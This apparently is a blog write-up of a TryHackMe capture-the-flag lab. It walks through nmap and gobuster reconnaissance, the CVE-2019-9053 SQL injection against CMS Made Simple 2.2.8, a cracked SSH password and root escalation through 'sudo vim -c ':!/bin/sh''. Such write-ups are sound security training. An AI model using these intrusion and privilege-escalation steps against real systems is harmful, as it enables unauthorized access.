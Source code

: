 ```yaml
---
layout: post
title: "CVE-2019-9053"
author: "Nicholas Coleman"
date: 2025-04-11
tags: tryhackme
---
```


## Breaching a Vulnerable Site

I begin by scanning the IP with nmap: 

`nmap -sC -sV -oA ctf1/scan 10.10.75.135`

Results:
```  
Nmap scan report for 10.10.75.135
Host is up (0.12s latency).
Not shown: 997 filtered tcp ports (no-response)

PORT 	STATE SERVICE VERSION
21/tcp   open  ftp 	vsftpd 3.0.3
| ftp-syst:
|   STAT:
| FTP server status:
|  	Connected to ::ffff:10.6.25.18
|  	Logged in as ftp
|  	TYPE: ASCII
|  	No session bandwidth limit
|  	Session timeout in seconds is 300
|  	Control connection is plain text
|  	Data connections will be plain text
|  	At session startup, client count was 2
|  	vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT

80/tcp   open  http	Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-robots.txt: 2 disallowed entries
|_/ /openemr-5_0_1_3
|_http-title: Apache2 Ubuntu Default Page: It works

2222/tcp open  ssh 	OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Apr 10 16:29:56 2025 -- 1 IP address (1 host up) scanned in 53.75 seconds
```

From the nmap scan, we can see that there are 3 ports open: **21, 80, and 2222**. All of these can be useful for us when trying to think of ways to breach the system. The attack surface of this system is nice to work with - especially when one of the vectors is exploiting the insecure design.

The web server this machine is hosting redirects to the default Apache webpage. But this does not *necessarily* indicate the site is empty, so I decided to look deeper with gobuster to see if there was anything else hidden. **Gobuster** is really handy and easy to use, not to mention - a very fast tool.

Gobuster does not come pre-installed on Kali machines, so to get the tool you have to install it:

```bash
sudo apt install gobuster
```

Furthermore, in order to use Gobuster, you must have a wordlist to enmurate off of. There are plenty online, but the one I used is located here: [directory-list-2.3-medium](https://github.com/daviddias/node-dirbuster/blob/master/lists/directory-list-2.3-medium.txt).

So using this command:

`gobuster dir -u 10.10.75.135 -w directory-list-2.3-medium.txt -t 100`

Gobuster shows me that there is indeed another accessible site resource: `/simple`. It was able to locate this path for me in a matter of seconds.

Navigating to /simple brings me to a boilerplate page meant for developers who are working with CMS Made Simple (CMSMS). CMSMS is a FOSS content-management system that makes it easy for developers by providing an accessible and "simple" web-based development/administration area to work with. Software that aims to streamline/simplify can often include vulnerabilities because of the fact that these applications are made to be readily accessible. However, most of the time these vulnerabilite are very easy to avoid - the real issue is human laziness and our inability to pay attention to things.

The CMSMS version is `2.2.8`. The version being out in the open like this makes my life a lot easier. 

![CMS](/security.github.io/images/simple/cms_simple.png)

Using `searchsploit`, I was able to find that this version of CMS Made Simple is vulnerable to a SQL injection exploit: **[CVE-2019-9053](https://www.exploit-db.com/exploits/46635)**.

This SQLi Python script extracts the hashed password and cracks it, enabling access to the target system. The results were:

```  
Username: mitch  
Email: admin@admin.com  
Password: 0c01f4468bd75d7a84c7eb73846e8d96  
Cracked Password: secret  
```

Now I am able to ssh into mitch's computer using: `ssh mitch@10.10.75.135 -p 2222` with the password:

![SSH](/security.github.io/images/simple/SSH.png)

Once inside, the User flag: **user.txt** is readily available for me to capture. Easy! 

My next order of business is to see what sudo commands the users here can run. Using `sudo -l`, I am able to see that Mitch is able to run `/usr/bin/vim` as a root user without a password. 

After looking online, I found out that Vim can be used to *break out of restricted environments by spawning an interactive system shell*. This is a huge vulnerability and gives us the ability to escalate our privileges to become the root user - with this simple command: `sudo vim -c ':!/bin/sh'`.

![sudo vim](/security.github.io/images/simple/sudovim.png)

There you go - I have achieved privilege escalation. After navigating to the root directory, I was able to finally find the root flag in **root.txt**:

![final](/security.github.io/images/simple/final.png)

Whoever is running this website needs to *seriously* work on the security!
